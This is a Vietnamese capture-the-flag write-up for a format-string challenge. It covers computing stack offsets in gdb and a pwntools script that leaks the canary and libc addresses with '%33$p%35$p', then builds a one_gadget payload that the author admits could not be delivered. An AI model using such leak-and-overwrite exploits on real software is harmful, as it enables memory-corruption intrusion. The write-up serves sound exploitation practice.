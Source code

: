 ### Write up format idea
- Em chỉ có ý tưởng về cái bài này thôi ạ, có thể nó đúng được 50%, 25% hay có thể là 0%, nhưng dù sao em vẫn muốn chia sẻ
## Bước 1: tính toán offset 
- Thì với bài format, em thấy nó có thể sử dụng format string để leak gì đó từ stack, mở ida và decompile hàm main ta thấy dòng này:
```c++
  printf(buf);
  ```

Tức là ta có thể sử dụng format string, sau đó ta vào gdb thấy rằng 


![image](https://github.com/antkss/writeUP/assets/88892713/632278cd-abb4-486d-ba47-ae80327fd0d7)

khi chạy đến đây là canary, ta tìm được giá trị của canary ở rax 

![image](https://github.com/antkss/writeUP/assets/88892713/7af6eb42-4567-4997-a012-42f499db5bb0)


dùng tel trong gdb để xem các block của stack 

![image](https://github.com/antkss/writeUP/assets/88892713/f250f76e-3fa0-44e0-8432-12fa44c74b44)


giá trị canary nằm ở đây


- Ta sẽ tính offset để leak, công thức là offset = (địa_chỉ_chứa_canary - địa_chỉ_rsp)/8 +6 và ở đây nó bằng 33

- em tính leak thêm cái libc_start_main nữa, như hình trên chỉ cần lấy 33+2 là ra offset của libc_start_main
- cuối cùng là e muốn có thêm libc_base nữa


![image](https://github.com/antkss/writeUP/assets/88892713/b725c6a2-adbf-4eb8-bc13-e8b8c38e9179)


e chỉ cần lấy địa chỉ của libc_start_main trừ đi cái này là ra cái offset, xong lấy offset đó cộng với địa chỉ libc_start_main trong script là có thể leak địa chỉ libc_base
## Bước 2 viết scripts
'''python

#!/bin/python3
from pwn import *
p = process('./format')
#cong thuc tinh (p/d diachicanary - diachirsp)/8 + 6
payload = b'%33$p%35$p'


#payload += p64(0x0000000000401223)
input()
p.sendafter(b'flag^^\n',payload)
a = p.recvuntil(b'FLAG{fake_flag}')

datas = p.recvall().split(b'0x')
canary = int(datas[1],16)
libc_start_main = int(datas[2],16)
libc_base = libc_start_main - 0x27d8a
log.info('canary:' + hex(canary))
log.info('libc_start_main:' + hex(libc_start_main))
log.info('libc_base:' + hex(libc_base))

one_gadget = libc_base + 0xfabcf


payload = b'A'*40 + p64(canary) +p64(0) + p64(one_gadget)
#b'%93$p'
p.interactive()
'''
khi chạy ta lấy được những địa chỉ mà ta muốn 


![image](https://github.com/antkss/writeUP/assets/88892713/a70549b7-7ad4-4911-9327-6b5fb15eb63f)



## DAMN

 em nghĩ mình có thể dùng execv("/bin/sh") trong libc được tìm bằng one_gadget để chạy vào shell, nhưng em quên rằng bài chỉ có 1 input, nên chỉ leak được địa chỉ và canary chứ không thể truyền vào lại =))))
